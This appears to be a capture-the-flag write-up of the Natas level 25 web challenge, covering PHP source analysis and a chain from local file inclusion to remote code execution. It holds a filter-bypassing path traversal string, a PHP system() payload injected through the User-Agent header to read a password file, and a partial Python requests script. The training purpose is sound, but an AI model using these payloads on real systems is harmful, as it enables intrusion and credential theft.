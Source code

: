 
```php
      foreach(listFiles("language/") as $f) echo "<option>$f</option>"
```
   - This function loops through all of the listfiles in the directory "language/" and prints out as HTML element option.


```php
      session_start();
      setLanguage();
      
      echo "<h2>$__GREETING</h2>";
      echo "<p align=\"justify\">$__MSG";
      echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
```
   - This code section starts a session, sets the language and then prints out a custom greeting and a custom message, then a customer footer note. 


---

     
4. Steps taken (Local File Inclusion to Remote Code Execution):

   1. First thing I explored was what would happened when changing the dropdown select for "language". Any language not in the option returned English by default. 

   2. After checking the source code I noticed that we could log incidents in 2 situations. Whenever we used the `../` (characters used to escape directory in linux) or when using `natas_webpass`. The latter would result in the code exiting. 

   3. String replace would only take the literal `../` and replace it into `''`. This wouldn't trigger with a double-encoded `...././` only replacing the inner escape and preserving the remainder. 

   4. Building upon this logic and the fact that the storage directory `/var/www/natas/natas25/logs/natas25_` is about 5 levels deep. So chaining `escape_claus = '..././..././..././..././..././'` with `test_1 = f"{escape_claus}etc/passwd"` resulted in returning the contents of that directory. 

   5. The next part was the fact that in the logging of the message into the log file it concatenates the header `User-Agent` which stood out since that is vulnerable. I submitted another test with the header as `<?php system("cat /etc/natas_webpass/natas26"); ?>` but had it return the payload for "lang" as `test_2 = f"{escape_claus}var/www/natas/natas25/logs/natas25_{cookies}.log"`.

   6. This caused the function to read what was in the natas_webpass which passed through the header. Then when I tried to access the double enconded escape it triggerred a log to write the file. 

   7. This produced the flag in the response.


```python
      import requests
      from requests.auth import HTTPBasicAuth

      username = "natas25"
      password = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" # replace with actual

      def main():
         # --- Configuration ---
         url = f"http://{username}.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth(username, password)  
         session = requests.Session()
         

         response = session.get(url, auth=auth)
         cookies = response.cookies["PHPSESSID"]
         
         escape_claus = '..././..././..././..././..././'

         test_1 = f"{escape_claus}etc/passwd"
         test_2 = f"{escape_claus}var/www/natas/natas25/logs/natas25_{cookies}.log"
         print(f"test2: {test_2}")
```